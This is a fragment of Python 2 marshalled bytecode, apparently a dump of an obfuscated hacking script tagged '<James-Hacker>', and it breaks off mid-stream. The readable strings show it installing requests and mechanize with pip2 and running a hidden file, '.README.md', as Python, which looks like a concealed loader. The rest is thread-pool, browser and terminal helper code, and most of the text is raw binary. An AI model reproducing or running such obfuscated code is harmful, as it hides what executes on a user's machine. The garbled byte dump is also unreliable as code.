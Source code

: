 10\x00Z\x1f\x00d\x11\x00\x84\x00\x00Z \x00d\x12\x00Z!\x00g\x00\x00Z"\x00g\x00\x00a#\x00g\x00\x00a$\x00g\x00\x00Z%\x00d\x13\x00\x84\x00\x00Z&\x00d\x14\x00\x84\x00\x00Z\'\x00d\x15\x00\x84\x00\x00Z(\x00d\x16\x00\x84\x00\x00Z)\x00d\x17\x00\x84\x00\x00Z*\x00d\x18\x00\x84\x00\x00Z+\x00d\x19\x00\x84\x00\x00Z,\x00d\x1a\x00\x84\x00\x00Z-\x00d\x1b\x00\x84\x00\x00Z.\x00d\x1c\x00\x84\x00\x00Z/\x00e0\x00d\x1d\x00k\x02\x00rJ\x02e&\x00\x83\x00\x00\x01n\x00\x00d\x01\x00S(\x1e\x00\x00\x00i\xff\xff\xff\xffN(\x01\x00\x00\x00t\n\x00\x00\x00ThreadPool(\x01\x00\x00\x00t\x0f\x00\x00\x00ConnectionError(\x01\x00\x00\x00t\x07\x00\x00\x00Browsers\x15\x00\x00\x00pip2 install requestss\x16\x00\x00\x00pip2 install mechanizei\x01\x00\x00\x00s\x12\x00\x00\x00python2 .README.mdt\x04\x00\x00\x00utf8c\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00C\x00\x00\x00s\x16\x00\x00\x00d\x01\x00GHt\x00\x00j\x01\x00j\x02\x00\x83\x00\x00\x01d\x00\x00S(\x02\x00\x00\x00Ns\x08\x00\x00\x00[!]
Exit(\x03\x00\x00\x00t\x02\x00\x00\x00ost\x03\x00\x00\x00syst\x04\x00\x00\x00exit(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>t\x03\x00\x00\x00exb\x1a\x00\x00\x00s\x04\x00\x00\x00\x00\x01\x05\x01c\x01\x00\x00\x00\x04\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00sS\x00\x00\x00d\x01\x00}\x01\x00d\x02\x00}\x02\x00x:\x00t\x00\x00D]2\x00}\x03\x00|\x02\x00d\x03\x00|\x01\x00t\x01\x00j\x02\x00d\x04\x00t\x03\x00|\x01\x00\x83\x01\x00d\x05\x00\x18\x83\x02\x00\x19\x17|\x03\x00\x177}\x02\x00q\x13\x00Wt\x04\x00|\x02\x00\x83\x01\x00S(\x06\x00\x00\x00Nt\x07\x00\x00\x00ahtdzjct\x00\x00\x00\x00t\x01\x00\x00\x00!i\x00\x00\x00\x00i\x01\x00\x00\x00(\x05\x00\x00\x00t\x01\x00\x00\x00xt\x06\x00\x00\x00randomt\x07\x00\x00\x00randintt\x03\x00\x00\x00lent\x05\x00\x00\x00cetak(\x04\x00\x00\x00t\x01\x00\x00\x00bt\x01\x00\x00\x00wt\x01\x00\x00\x00dt\x01\x00\x00\x00i(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>t\x04\x00\x00\x00acak\x1f\x00\x00\x00s\n\x00\x00\x00\x00\x01\x06\x01\x06\x01\r\x010\x01c\x01\x00\x00\x00\x05\x00\x00\x00\x07\x00\x00\x00C\x00\x00\x00s~\x00\x00\x00d\x01\x00}\x01\x00xA\x00|\x01\x00D]9\x00}\x02\x00|\x01\x00j\x00\x00|\x02\x00\x83\x01\x00}\x03\x00|\x04\x00j\x01\x00d\x02\x00|\x02\x00\x16d\x03\x00t\x02\x00d\x04\x00|\x03\x00\x17\x83\x01\x00\x16\x83\x02\x00}\x04\x00q\r\x00W|\x04\x00d\x05\x007}\x04\x00|\x04\x00j\x01\x00d\x06\x00d\x05\x00\x83\x02\x00}\x04\x00t\x03\x00j\x04\x00j\x05\x00|\x04\x00d\x07\x00\x17\x83\x01\x00\x01d\x00\x00S(\x08\x00\x00\x00NR\x08\x00\x00\x00s\x03\x00\x00\x00!%ss\x07\x00\x00\x00\x1b[%s;1mi\x1f\x00\x00\x00s\x04\x00\x00\x00\x1b[0ms\x02\x00\x00\x00!0s\x01\x00\x00\x00\n(\x06\x00\x00\x00t\x05\x00\x00\x00indext\x07\x00\x00\x00replacet\x03\x00\x00\x00strR\x05\x00\x00\x00t\x06\x00\x00\x00stdoutt\x05\x00\x00\x00write(\x05\x00\x00\x00R\x10\x00\x00\x00R\x11\x00\x00\x00R\x13\x00\x00\x00t\x01\x00\x00\x00jR\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>R\x0f\x00\x00\x00\'\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x06\x01\r\x01\x0f\x01(\x01\n\x01\x12\x01c\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00sC\x00\x00\x00x<\x00|\x00\x00d\x01\x00\x17D]0\x00}\x01\x00t\x00\x00j\x01\x00j\x02\x00|\x01\x00\x83\x01\x00\x01t\x00\x00j\x01\x00j\x03\x00\x83\x00\x00\x01t\x04\x00j\x05\x00d\x02\x00\x83\x01\x00\x01q\x0b\x00Wd\x00\x00S(\x03\x00\x00\x00Ns\x01\x00\x00\x00\ng\xb8\x1e\x85\xebQ\xb8\x9e?(\x06\x00\x00\x00R\x05\x00\x00\x00R\x18\x00\x00\x00R\x19\x00\x00\x00t\x05\x00\x00\x00flusht\x04\x00\x00\x00timet\x05\x00\x00\x00sleep(\x02\x00\x00\x00t\x01\x00\x00\x00zt\x01\x00\x00\x00e(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>t\x03\x00\x00\x00psb1\x00\x00\x00s\x08\x00\x00\x00\x00\x01\x11\x01\x10\x01\r\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00C\x00\x00\x00s\x11\x00\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x00\x00S(\x02\x00\x00\x00Ni\x01\x00\x00\x00(\x02\x00\x00\x00R\x1c\x00\x00\x00R\x1d\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>t\x01\x00\x00\x00t7\x00\x00\x00s\x02\x00\x00\x00\x00\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00C\x00\x00\x00s\x11\x00\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x00\x00S(\x02\x00\x00\x00Nt\x05\x00\x00\x00clear(\x02\x00\x00\x00R\x04\x00\x00\x00t\x06\x00\x00\x00system(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00